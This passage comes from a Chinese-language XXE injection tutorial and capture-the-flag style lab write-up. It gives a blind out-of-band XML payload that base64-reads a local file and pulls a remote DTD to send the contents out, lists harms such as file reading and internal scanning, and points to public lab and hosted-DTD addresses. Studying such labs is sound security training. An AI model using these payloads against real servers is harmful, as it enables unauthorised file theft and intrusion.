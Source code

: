 接着构造一个 payload

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/1.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1/xml/xxe.xml">
%remote;
%send;
]>

```

post 传参发包，发现生成了一个 flag.txt

![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819145349842.png)

接着我们就得到 1.txt 的 base64 的形式，解码一下, 就可以得到其中的内容

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819145619095.png)

支持的协议有哪些？

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819145646289.png)

具体的根据情况会产生的危害：

1、读取任意文件

2、执行系统命令（expect 需要扩展支持）

3、探测内网端口（利用 http 访问）

4、攻击内网网站等

XXE-1
=====

> 通过上面，我们已经充分了解了 XXE 的基础知识，直接进入实战环节
> 
> **实验环境：[http://59.63.200.79:8014/xxe/index.php](http://59.63.200.79:8014/xxe/index.php)**

打开靶场看到一个有 xxe 注入的点

```
 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);

```

而 $postStr 是由 post 传参的内容所控制，所以这里存在 XXE 漏洞

最底下爆出了绝对路径

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819150834903.png)

这题目标很明确了，由于攻击没有回显，在公网的某个服务器中放入我们刚刚的`x.php`和`xxe.xml`

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819150949128.png)

接着利用绝对路径可以读取 flag，payload

> 若是你没有公网 vps 服务器的话，这里有两个挂在公网上的可以试用
> 
> [http://59.63.200.79:8017/1.xml](http://59.63.200.79:8017/1.xml)
> 
> [http://59.63.200.79:8017/3.txt](http://59.63.200.79:8017/3.txt)
> 
> 访问上面那个一样可以
